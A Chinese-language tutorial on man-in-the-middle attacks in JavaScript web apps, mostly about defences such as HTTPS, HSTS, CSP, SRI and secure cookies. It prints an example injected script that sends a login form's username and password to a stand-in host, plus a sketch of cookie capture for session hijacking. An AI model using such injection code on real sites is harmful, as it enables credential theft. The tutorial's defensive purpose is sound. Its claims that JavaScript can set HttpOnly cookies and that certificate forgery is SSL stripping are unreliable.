

# JavaScript 中间人攻击

## 什么是中间人攻击？

中间人攻击（Man-in-the-middle attack，简称MITM）是一种网络安全威胁，攻击者秘密地中继并可能篡改两方之间的通信，使得通信双方认为他们是在直接与对方交流，但实际上整个会话都被攻击者控制。在JavaScript和Web应用程序的上下文中，这种攻击尤为危险，因为它可能导致敏感数据泄露、会话劫持或恶意代码注入。



## 中间人攻击如何工作

在Web应用程序上下文中，中间人攻击通常按照以下步骤执行：

1. **拦截通信**：攻击者首先需要位于客户端和服务器之间的网络路径上，这可以通过DNS欺骗、ARP欺骗、Wi-Fi嗅探等方式实现。

2. **重定向流量**：一旦攻击者能够拦截流量，他们会将所有通信重定向通过自己的系统。

3. **监控或篡改数据**：攻击者可以查看所有明文传输的数据，如果通信是加密的，他们可能会尝试解密或通过其他方式绕过安全措施。

4. **将修改后的数据转发**：攻击者将可能被修改的数据转发给预期的接收者，接收方无法察觉数据已被篡改。

## JavaScript 相关的中间人攻击示例

### 示例1：JavaScript资源注入

当网页通过不安全的HTTP连接加载JavaScript文件时，攻击者可以注入恶意代码：

```javascript
// 原始脚本
function validateForm() {
  // 正常的表单验证逻辑
  return true;
}

// 攻击者修改后的脚本
function validateForm() {
  // 正常的表单验证逻辑
  
  // 恶意代码：捕获表单数据并发送到攻击者的服务器
  var formData = document.getElementById("loginForm");
  var xhr = new XMLHttpRequest();
  xhr.open("POST", "https://malicious-server.com/steal", true);
  xhr.send(JSON.stringify({
    username: formData.username.value,
    password: formData.password.value
  }));
  
  return true;
}
```

### 示例2：会话劫持

攻击者可以截获未加密的cookies或会话标识符：

```javascript
// 攻击者使用的代码（不在受害者浏览器中运行，而是在攻击者的服务器上）
// 这是一个概念性示例
function interceptTraffic(request, response) {
  if (request.headers.cookie) {
    // 保存被截获的cookie
    saveToDatabase(request.headers.cookie);
    
    // 使用被截获的cookie模拟受害者的身份
    console.log("已获取会话cookie: " + request.headers.cookie);
  }
  
  // 继续正常转发请求，受害者不会察觉
  forwardRequest(request, response);
}
```

## 如何防范JavaScript中间人攻击

### 1. 使用HTTPS

始终使用HTTPS协议加密客户端和服务器之间的所有通信，这是防止中间人攻击最基本也是最重要的措施。

```javascript
// 确保所有资源使用HTTPS
if (window.location.protocol !== 'https:') {
  window.location.href = 'https:' + window.location.href.substring(window.location.protocol.length);
}
```

### 2. 实施HSTS（HTTP Strict Transport Security）

HSTS告诉浏览器应该总是通过HTTPS连接到您的网站：

```javascript
// 这需要在服务器端设置HTTP响应头
// Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
```

### 3. 内容安全策略（CSP）

CSP可以限制浏览器加载资源的位置，减少被篡改或注入恶意脚本的风险：

```javascript
// 这需要在服务器端设置HTTP响应头
// Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted-cdn.com
```

### 4. 子资源完整性（SRI）

使用SRI可以确保从外部来源加载的资源未被篡改：

```html
<script 
  src="https://cdn.example.com/script.js" 
  integrity="sha384-oqVuAfXRKap7fdgcCY5uykM6+R9GqQ8K/uxy9rx7HNQlGYl1kPzQho1wx4JwY8wC" 
  crossorigin="anonymous">
</script>
```

### 5. 使用安全的Cookie设置

```javascript
// 在服务器端设置cookie时使用Secure和HttpOnly标志
document.cookie = "sessionId=abc123; Secure; HttpOnly; SameSite=Strict";
```

:::caution
即使使用了HTTPS，也可能存在中间人攻击风险，特别是在首次连接时，如果攻击者能够伪造或篡改SSL证书。这被称为SSL剥离攻击。
:::

## 真实世界中的中间人攻击案例

### 案例1：咖啡店Wi-Fi攻击

想象一个场景：小明在咖啡店使用公共Wi-Fi网络，攻击者也在同一网络上。攻击者创建了一个恶意的访问点，名称与咖啡店的官方Wi-Fi相似。当小明连接到这个恶意网络时，所有网络流量都通过攻击者的设备，攻击者可以：

1. 捕获小明浏览的所有非HTTPS网站
2. 修改小明下载的JavaScript文件
3. 窃取在不安全网站上输入的凭据

### 案例2：Superfish事件（2015年）

联想电脑预装了Superfish软件，该软件为了在HTTPS连接上插入广告，实际上在系统中安装了根证书并执行了中间人攻击。这让攻击者可以：

1. 解密并查看用户的所有加密流量
2. 修改JavaScript和其他资源
3. 窃取用户凭据和敏感信息

## 实践练习：检测和防范中间人攻击

### 检测是否使用HTTPS

创建一个简单的函数，检查当前网页是否使用HTTPS，并在使用HTTP时提醒用户：

```javascript
function checkHttps() {
  if (window.location.protocol !== 'https:') {
    console.warn('警告：当前连接不安全！');
    alert('您正在使用不安全的HTTP连接。请考虑切换到HTTPS以保护您的数据安全。');
    return false;
  }
  console.log('连接安全：使用HTTPS');
  return true;
}

// 调用函数
checkHttps();
```

### 验证资源完整性

创建一个函数，用于动态加载脚本并验证其完整性：

```javascript
function loadScriptWithIntegrity(src, integrity) {
  return new Promise((resolve, reject) => {
    const script = document.createElement('script');
    script.src = src;
    script.integrity = integrity;
    script.crossOrigin = 'anonymous';
    
    script.onload = () => resolve();
    script.onerror = () => reject(new Error(`Script load error for ${src}`));
    
    document.head.appendChild(script);
  });
}

// 使用示例
loadScriptWithIntegrity(
  'https://cdn.example.com/library.js',
  'sha384-oqVuAfXRKap7fdgcCY5uykM6+R9GqQ8K/uxy9rx7HNQlGYl1kPzQho1wx4JwY8wC'
)
  .then(() => console.log('脚本加载成功且完整性验证通过'))
  .catch(err => console.error('脚本加载失败或完整性验证未通过:', err));
```

## 总结

中间人攻击是Web安全中最常见且危险的威胁之一，尤其对JavaScript应用程序来说。通过理解攻击工作原理和采取适当的防御措施，开发者可以显著降低这类攻击的风险：

1. **始终使用HTTPS**加密所有数据传输
2. **实施HSTS**确保始终使用安全连接
3. **使用内容安全策略(CSP)**限制资源加载来源
4. **应用子资源完整性(SRI)**检查外部资源是否被篡改
5. **安全配置Cookie**防止会话劫持
6. **定期更新**所有依赖库和框架

随着Web应用程序变得越来越复杂，保持警惕并实施这些安全最佳实践对保护用户数据和维护应用程序完整性至关重要。

## 进一步学习资源

:::tip 推荐资源
- OWASP中间人攻击防御备忘单
- Mozilla的Web安全指南
- Google Web Fundamentals中的安全部分
:::

## 练习题

1. 创建一个简单的表单，并实现所有必要的安全措施，防止中间人攻击。
2. 编写一个脚本，检测网页上所有外部JavaScript资源是否使用了子资源完整性验证。
3. 研究并实现一个基本的CSP策略，只允许从可信来源加载资源。